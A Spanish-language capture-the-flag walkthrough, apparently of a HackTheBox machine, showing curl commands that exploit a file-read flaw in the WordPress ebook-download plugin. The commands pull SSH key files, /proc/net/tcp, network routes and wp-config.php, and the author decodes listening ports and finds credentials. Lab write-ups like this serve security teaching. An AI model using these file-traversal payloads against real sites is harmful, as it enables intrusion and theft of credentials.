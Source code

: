 - sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/home/user/.ssh/authorized_key"

para buscar puertos abiertos.

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/net/tcp"

nos devuelve algo tipo.

0: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000

habrimos una consola python3 en una ventana aparte y agregando 0x0035 que es el puerto en exadecimal

vemos los puertos

>>> 0x0035
53
>>> 0x0016
22
>>> 0x0539
1337
>>> 0x8124
33060
>>> 0x0CEA 
3306
>>> 0xBC5E
48222
>>> 0xBD32
48434
>>> 0xBC7C
48252
>>> 0xE6EA
59114
>>> 0x8EDE
36574
>>> 0xBC4A 
48202
>>> 0xB2FC
45820

ahora para saber si estamos dentro de un contenedor.

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/net/fib_trie"

y no hay otras ip ni nada por el estilo asi que si es la victima real.
revisamos nuevamente el wp-config.php para que detecte codigo php (-l php)

- wp-config.php | bat -l php 

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php" | bat -l php

y podemos ver credenciales 
